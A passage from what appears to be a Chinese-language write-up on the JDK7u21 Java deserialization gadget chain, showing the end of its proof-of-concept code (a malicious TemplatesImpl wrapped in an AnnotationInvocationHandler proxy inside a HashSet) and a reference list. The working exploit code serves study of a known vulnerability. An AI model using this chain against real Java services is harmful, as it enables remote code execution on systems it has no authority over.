 ```
        unserialize(obj);
    `}`


    public static void expHashSet() throws Exception `{`
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();
        map.put("f5a5a608", new int[]`{`-16`}`);

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        HashSet set = new HashSet();
        set.add(proxy);
        set.add(templates);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    `}`
`}`
```



## 参考：

[https://gist.github.com/frohoff/24af7913611f8406eaf3](https://gist.github.com/frohoff/24af7913611f8406eaf3)<br>[https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/](https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/)<br>
phith0n：Java安全漫谈 – 18.原生反序列化利用链JDK7u21<br>[https://xz.aliyun.com/t/9704](https://xz.aliyun.com/t/9704)<br>[https://www.cnblogs.com/wlrhnh/p/7256969.html](https://www.cnblogs.com/wlrhnh/p/7256969.html)<br>[http://blog.csdn.net/justloveyou_/article/details/62893086](http://blog.csdn.net/justloveyou_/article/details/62893086)<br>[https://blog.csdn.net/justloveyou_/article/details/71713781](https://blog.csdn.net/justloveyou_/article/details/71713781)
